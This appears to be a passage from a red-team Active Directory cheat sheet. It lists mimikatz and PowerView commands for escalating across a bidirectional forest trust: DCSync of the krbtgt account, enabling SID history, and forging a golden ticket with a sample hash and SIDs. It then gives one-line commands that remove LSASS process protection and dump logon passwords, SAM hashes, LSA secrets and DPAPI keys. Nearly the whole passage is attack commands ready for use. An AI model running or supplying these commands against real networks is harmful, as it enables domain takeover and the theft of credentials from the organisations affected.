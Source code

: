 ```powershell
ls [\\bluedc.blue.com\c$](file://bluedc.blue.com/c$)
```
### Bidirectional Trust Between Forests

Step 1: Retrieve krbtgt's NTLM
```powershell
mimikatz.exe

lsadump::dcsync /domain:red.com /user:RED\krbtgt
```
Step 2: Get SID and SIDs
```powershell
Get-DomainSID -Domain red.com

Get-DomainSID -Domain redteam.com
```
Step 3: Enable SID History
```powershell
netdom trust redteam.com /d:red.com /enablesidhistory:yes
```
Step 4: Find a custom administrators group whose RID is greater than 1000
```powershell
Get-DomainGroupMember -Identity "Administrators" -Domain redteam.com
```
Step 5: Create a golden ticket
```powershell
mimikatz.exe "kerberos::golden /user:Administrator /domain:redteam.com /sid:S-1-5-21-2032401531-514583578-4118054891 /krbtgt:7c7865e6e30e54e8845aad091b0ff447 /sids:S-1-5-21-1135011135-3178090508-3151492220-1106 /ptt" "exit"
```

## Credentials
### From File
```powershell
C:\program files\setup\mail.ps1

C:\inetpub\wwwroot\loginform.aspx
```
### Dcsync
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "lsadump::dcsync /domain:red.com /user:red\Administrator"exit
```
### logonpasswords
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::logonpasswords"exit
```
### SAM
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "token::elevate" "lsadump::sam"exit
```
### Secret
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "token::elevate" "lsadump::secrets"exit
```
### DPAPI
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe  /remove" "sekurlsa::dpapi"exit
```